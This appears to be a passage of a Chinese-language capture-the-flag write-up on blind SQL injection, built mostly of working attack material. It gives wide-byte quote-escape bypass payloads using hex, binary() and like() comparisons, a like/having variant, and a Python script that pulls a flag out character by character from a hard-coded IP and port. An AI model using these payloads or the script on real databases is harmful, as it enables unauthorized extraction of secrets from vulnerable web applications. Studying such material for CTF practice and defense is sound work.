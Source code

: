 二重16进制：

```http
GET /index.php?key=-1%df%27||left((select(hex(flag))from(flag)),2)=0x34§34§%23=>>45
```

binary函数：

 ```http
GET /index.php?key=-1%df%27||left((select(flag)from(flag)),1)=binary(0x§34§)%23
 ```



like函数



```http
/index.php?key=-1%df%27||(select(binary(flag))from(flag))like(0x§4e§25)%23
```

选择用like 绕过。单引号被转义了用16进制绕过，但是有几个坑：mysql默认不区分大小写，在select的时候加上binary；_在like语句中需要转义。

还一种利用like的payload:

```Sql
select * from foo where code like '%%fd'||1.having(select(1)from(select(flag)from(flag)where(flag)like(binary(0x4e4a4354467b354830575f4d335f53304d335f735131695f547249436b357d25)))x)#%'
```

写了几个payload：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string

url = "http://218.2.197.235:23733/index.php?key="
payload = "-1%df%27||left((select(hex(flag))from(flag)),{pos})=0x{c}%23"
req = requests.Session()
str = string.printable
char =''
flag = ''
end =0
for i in xrange(1,81):
    for s in str:
        char = (flag+s).encode('hex')
        endurl = (url+payload).format(pos = i,c = char)
       # print endurl
        r = req.get(endurl)
        #print r.text
        if len(r.text)>1000:
            flag +=s
            print flag
            break
        if s ==str[-1]:#搜索一圈都没搜到
            print "we get all!"
            end =1
            break
    if(end):
        break

print flag.decode('hex')

```
